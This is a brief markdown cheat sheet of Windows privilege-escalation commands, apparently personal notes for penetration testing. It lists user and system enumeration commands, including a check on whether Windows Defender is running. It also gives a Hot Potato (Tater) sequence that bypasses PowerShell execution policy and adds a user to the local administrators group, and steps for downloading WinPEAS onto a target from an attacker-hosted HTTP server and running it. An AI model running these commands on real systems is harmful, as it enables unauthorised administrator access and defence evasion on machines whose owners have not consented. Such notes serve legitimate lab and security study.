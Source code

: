 ### Information Gathering
User Enumeration
- `whoami /priv` Current user privileges
- `net users` List users
- `net user $username` Detail of a specific user
- `qwinsta` Other users logged in

<!-- -->
Misc
- `systeminfo | findstr /B /C:"OS Name" /C:"OS Version"` get OS version
 - `wmic qfe get Caption,Description,HotFixID,InstalledOn` list updates on system
 - `schtasks /query /fo LIST /v` query scheduled tasks
- `driverquery` list drivers installed
- `sc query windefend` is windows Defender on?

<!-- -->

### Hot Potato
cmd:
- `powershell.exe -nop -ep bypass`
<!-- -->

Powershell
- `Import-Module  C:\Users\User\Desktop\Tools\Tater\Tater.ps1`
- `Invoke-Tater -Trigger 1 -Command "net localgroup administrators user /add"`

### Winpeas.exe
Local:
- `python -m SimpleHTTPServer 80`

<!-- -->
Remote: 
- `powershell.exe -command IWR -Uri $IP/winpeas.exe -OutFile winpeas.exe"`
- `winpeas.exe`
 <!-- -->
 
 [Windows Privesc](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)